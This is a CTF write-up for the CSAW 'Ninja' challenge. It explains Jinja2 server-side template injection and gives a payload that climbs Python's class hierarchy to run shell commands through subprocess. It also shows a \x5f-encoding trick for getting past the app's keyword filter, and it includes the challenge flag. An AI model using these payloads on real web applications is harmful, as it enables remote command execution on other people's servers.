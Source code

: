 # Ninja
## Description
Hey guys come check out this website I made to test my ninja-coding skills.  
http://web.chal.csaw.io:5000

## Solution
This website has Server-side Template Injection (SSTI) vulnerability.

### Some fundamentals
Some key points to exploit jinja2 SSTI:
- `__mro__` (**method resultion order**) to access base classes of the current class. In other words, we use `__mro__` to **go up** the inheritance tree.
- `__subclasses__()` to list all child classes of the current class. In other words, we use `__subclasses__()` to **go down** the inheritance tree.
- The `object` class which is the **root** of all objects in Python; therefore, once we can access the `object` class, we can call every object defined in the current file.

### Initial payload
I have crafted a small program in my machine to test the payload and this one is what I want:
```python
self.__class__.__base__.__subclasses__()[279]()(["cat","flag.txt"],shell=True,stdout=-1).communicate()[0]
```

### Bypass filters
There is a filter in this application:
```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```

First, the `_` character is significantly important for SSTI exploitation. So in order to bypass this, I found 2 ways:
- Encode `_` as `\x5f` (which is the Unicode encoding for `_`). However, to access a property or method using `string` name, I need to use `[]` rather than `.`.
- Use the `attr()` to get an attribute. Furthermore, we can use `|join` which will be handy in some cases when we want to concatenate strings.

Second, I need to bypass the `base` filter. To do that, I can use `__mro__[1]`.

With these information, my payload becomes:
```python
self['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][1]['\x5f\x5fsubclasses\x5f\x5f']()[279](['cat','flag.txt'],shell=True,stdout=-1).communicate()[0].decode('utf-8')
```
> Flag: `flag{m0mmy_s33_1m_4_r34l_n1nj4}`.
